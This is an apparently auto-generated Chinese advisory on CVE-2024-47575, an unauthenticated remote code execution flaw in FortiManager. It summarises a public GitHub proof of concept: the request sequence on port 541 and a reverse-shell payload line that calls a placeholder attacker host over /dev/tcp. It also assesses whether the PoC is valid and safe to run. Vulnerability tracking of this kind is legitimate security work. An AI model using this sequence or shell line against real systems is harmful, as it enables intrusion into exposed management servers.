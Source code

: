 ## CVE-2024-47575-FortiManager-Missing Authentication

**漏洞编号:** CVE-2024-47575

**漏洞类型:** 未授权访问

**影响应用:** FortiManager

**危害等级:** 高危，可导致远程代码执行

**影响版本:** 7.6.0, 7.4.0 <= version <= 7.4.4, 7.2.0 <= version <= 7.2.7, 7.0.0 <= version <= 7.0.12, 6.4.0 <= version <= 6.4.14, 6.2.0 <= version <= 6.2.12

**利用条件:** 目标FortiManager实例暴露在互联网上，端口541可访问。

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2024-47575 是 FortiManager 中的一个严重漏洞，是由于 fgfmsd 守护进程缺少身份验证所致。未经过身份验证的远程攻击者可以通过特制的请求执行任意代码或命令。

**利用方式：**

1.  **建立SSL连接：** POC 首先与目标 FortiManager 实例的 541 端口建立 SSL 连接。
2.  **发送请求：** POC 发送一系列精心构造的请求，包括：
    *   `get ip`: 获取目标 IP 地址。
    *   `get auth`: 获取认证信息。
    *   `get file_exchange`:  该请求触发漏洞，服务器返回一个 `remote_id`。
3.  **利用漏洞执行代码：** POC 使用获取的 `remote_id` 构造 `channel` 请求，并在请求中包含 JSON payload，payload 中的 `file` 参数包含反向 shell 命令，反弹shell到攻击者指定的 lhost 和 lport。 `sh -i >& /dev/tcp/REPLACE_LHOST/REPLACE_LPORT 0>&1`

**有效性：**

根据漏洞信息、搜索结果以及 POC 代码，该 POC 应该有效。漏洞细节表明这是一个无需认证的远程代码执行漏洞，POC 代码实现了利用漏洞所需的步骤。

**投毒风险：**

对提供的 POC 代码进行了分析，没有发现明显的恶意或投毒代码。该代码主要功能是建立连接、发送请求并利用漏洞。但是，使用任何未经审计的第三方代码都存在风险。此POC的危险在于它会尝试在目标系统上执行任意代码，如果目标是蜜罐或者安全研究环境，会留下恶意行为的痕迹。因此，虽然代码本身没有发现投毒，但使用不当仍可能产生负面影响。


**项目地址:** [revanslbw/CVE-2024-47575-POC](https://github.com/revanslbw/CVE-2024-47575-POC)

**漏洞详情:** [CVE-2024-47575](https://nvd.nist.gov/vuln/detail/CVE-2024-47575)